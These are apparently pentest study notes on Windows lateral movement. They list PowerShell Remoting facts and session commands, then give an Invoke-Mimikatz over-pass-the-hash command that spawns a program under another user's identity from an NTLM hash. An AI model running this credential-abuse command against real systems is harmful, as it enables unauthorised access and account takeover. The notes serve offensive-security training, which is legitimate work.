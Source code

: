 # PowerShell Remoting (PSRemoting)
- Enabled by default on Server 2012 and afterwards
- May need to enable remoting on a desktop windows machine (admin privs required)
- By default you get an elevated shell if administrator creds are used to authenticate
- Uses winrm port 5985
- HTTP tunnel and all traffic inside tunnel are encrypted
- Need local admin acces

# One-To-One (PSSession)
|Command|Description|
|---|---|
|New-PSSession|Create new PSSession with target|
|Enter-PSSession -ComputerName $computerFQDN|Interact with PSSession|

# One-to-Many (Invoke-Command)
|Command|Description|
|---|---|
|Invoke-Command -ComputerName \$ComputerFQDN -ScriptBlock {\$command\_here}|Run specified command on target computer|
|Invoke-Command -ComputerName {Get-Content $Computer_list} -FilePath \\\$path\\\$to\\\$script|Execute script on target computer(s)|

# Over-Pass-the-Hash (OPtH)
|Command|Description|
|---|---|
|Invoke-Mimikatz -Command '"sekurlsa::pth /user:\$TargetUser /domain:\$DomainName /ntlm:\$ntlmhash /run:\$program.exe"'|Spawn program.exe with another user's privileges|
